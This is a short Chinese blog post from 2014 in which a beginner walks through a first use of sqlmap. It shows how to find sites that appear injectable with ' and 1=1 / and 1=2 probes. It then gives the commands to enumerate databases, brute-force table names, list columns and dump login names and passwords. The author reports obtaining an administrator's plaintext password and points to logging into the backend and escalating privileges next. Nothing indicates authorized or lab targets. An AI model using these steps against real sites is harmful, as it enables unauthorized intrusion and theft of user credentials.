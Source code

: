 title: '第一次使用sqlmap'
date: 2014-09-02 17:26
tags: sql注入
---

本人菜鸟一枚，第一次使用sqlmap，大神误入
准备工作：使用 '  and 1=1  and 1=2 找到可能存在sql注入的网站
<!--more-->

#（1）查看数据库系统信息

在终端输入
sqlmap -u url --dbs --current-user

说明：url 换成你之前找到的可能存在sql注入的网址 ，文中的url都是这样，不在赘述



![](http://img.blog.csdn.net/20140902162816652)






#（2）查看数据库表

sqlmap -u -url --tables  



![](http://img.blog.csdn.net/20140902163603858)





会出现一个错误，询问是否使用常用的表来 查询数据库表，选择 y
sqlmap 会加载常用的数据库表命名字典，使用其中的表名执行sql语句，判断数据库中是否存在相应的表名



![](http://img.blog.csdn.net/20140902163959578)





输入运行的线程数，这个数字任意



期间可能会出现请求超时的情况，不用管，sqlmap会自动再次请求，直接等结果
![](http://img.blog.csdn.net/20140902164217546)





查询出两张表，可能数据库中不止这两张表

#（3）查看表字段

sqlmap -u url -T uname --columns
说明：uname是上面查询出来的其中一张表
![](http://img.blog.csdn.net/20140902165805211)






#（4）查看数据

sqlmap -u -url -T uname -C login_name,pass,username --dump
![](http://img.blog.csdn.net/20140902172455071)





发现密码竟然是明文，得到管理员账号和密码了。。。。。。。
后续就是找后台地址，登录，然后继续提权，就不介绍了






